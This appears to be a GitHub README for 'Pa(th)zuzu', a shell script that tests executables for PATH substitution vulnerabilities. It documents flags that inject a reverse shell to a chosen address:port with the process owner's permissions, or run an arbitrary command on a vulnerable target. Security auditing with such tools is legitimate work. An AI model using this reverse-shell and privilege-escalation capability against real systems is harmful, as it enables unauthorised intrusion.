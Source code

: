 # Pa(th)zuzu
Checks for PATH substitution vulnerabilities, logs the commands executed by the vulnerable executables and injects a reverse shell with the permissions of the owner of the process.

#How to make it work
- `chmod +x pathzuzu.sh`
- `./pathzuzu.sh [-r address:port] [-e command] [-t seconds] /path/to/command [args]`
  - `-r address:port Starts reverse shell to address:port`
  - `-e command      Runs command if target is vulnerable`
  - `-t seconds      Kills target (SIGTERM) after $seconds seconds`

Returns 0 if the executable is vulnerable, 1 otherwise.

Logs are saved in `pathzuzu.sh.log` ( `$(basename "$0").log` )

Demostration (warning: on some [very tiny] devices the right part of the screen it's not viewable even while in landscape):
[![Pa(th)zuzu](http://i.imgur.com/6hmEQsV.gif)](https://asciinema.org/a/27yeitcc28mbuk8171cr2yiky?autoplay=true)
